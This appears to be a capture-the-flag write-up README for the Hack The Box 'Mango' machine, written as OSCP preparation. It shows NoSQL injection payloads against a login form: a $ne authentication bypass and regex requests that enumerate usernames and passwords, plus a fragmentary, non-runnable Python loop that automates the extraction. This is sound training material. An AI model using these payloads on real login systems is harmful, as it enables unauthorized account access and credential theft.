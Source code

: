 ## Mango

https://app.hackthebox.com/machines/Mango

This machine has been resolved on OSCP machines: [Mango](https://github.com/b1d0ws/OSCP/tree/main/TJ%20Null's%20List/Linux%20Boxes/Mango)

The objective here is automate the NOSQL Injection on login.

Login Request
```
username=admin&password=admin&login=login
```

Simple bypass returns 302 instead of 200.
```
username=admin&password[$ne]=admin&login=login
```

<br>

In NodeJS, using JSON, this would be something like:
```
# Remember changing to Content-Type: application/json
{
"username": "admin",
"password": { "$ne": "admin"}
"login":"login"
}
```

<br>

Discovering length of usernames (this consults all usernames)
```
# Status 200 - No username with 1 character
username[$regex]=^.{1}$&password[$ne]=admin&login=login

# Status 302 - Finds user with 5 characers, probably "admin"
username[$regex]=^.{5}$&password[$ne]=admin&login=login
```

<br>

Scripts **enum-user.py** and **enum-pass.py** are basic and made based on [IppSec's video](https://www.youtube.com/watch?v=NO_lsfhQK_s&t=1300s).

The payload uses regex. On this payload, the word "l" is being rotate to find "n", the last character of this username.
```
username[$regex]=^admil&password[$ne]=admin&login=login
```

On this scripts, we check if the username is completed using this validation:
```
data = { "username[$regex]":"^" + payload + "$", "password[$ne]":"admin", "login":"login" }

username[$regex]=^admin$&password[$ne]=admin&login=login
```

<br>

But we could also use other logics like:
```python
for firstChar in characters:
  # Scroll through the alphabet
  if r.status_code != 302:
    # If character doesn't match the pattern, go to the next character
    continue;
  
  # If it finds the character, starts scrolling throug the alphabet again, searching for the next one
  loop = True
  userpass = firstChar

  while loop:
    loop = False
    
    for char in characters:
      if r.status_code == 302:
      print(Fore.YELLOW + "Pattern found: " + payload)
      userpass = payload
      # If finds another character, stays on this loop, if not, back to the first character and continues to find other usernames
      loop = True
```

<br>

These are other scripts that uses recursive function to search for every character even if it already find one.  
[Hacktricks Brute-force login usernames and passwords from POST login](https://book.hacktricks.xyz/pentesting-web/nosql-injection)  
[Nosql injection username and password enumeration script](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/tree/master)

